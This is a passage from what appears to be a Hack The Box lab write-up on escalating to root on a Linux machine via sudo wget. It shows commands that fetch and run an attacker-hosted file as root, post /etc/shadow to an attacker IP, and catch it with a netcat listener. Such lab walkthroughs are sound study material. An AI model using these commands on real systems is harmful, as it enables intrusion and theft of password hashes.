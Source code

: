 - starting up a web server

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/34.jpg)

- get the file in victim machine and save it
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/35.jpg)
```sh
sudo wget 10.10.14.2:8000/troll -O /root/troll
```
- -0 for save the output.

- let's go to sunny and execute the file

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/36.jpg)

- as soon as we get the wget file execute it

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/37.jpg)

```sh
sleep 5; sudo wget 10.10.14.2:8000/troll -O /root/troll
```

```sh
sudo /root/troll
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/38.jpg)

- If we see in the file section
	- there is a job scheduled to rewrite the file in /root/troll
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/39.jpg)

### Other ways to escalate privileges
- wget options

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/40.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/41.jpg)

- post the shadow file to attacker

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/42.jpg)

```sh
sudo wget --post-file=/etc/shadow 10.10.14.2 
```

- start netcat in attacker machine and view the file.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/43.jpg)

```sh
nc -nlvp 80
```
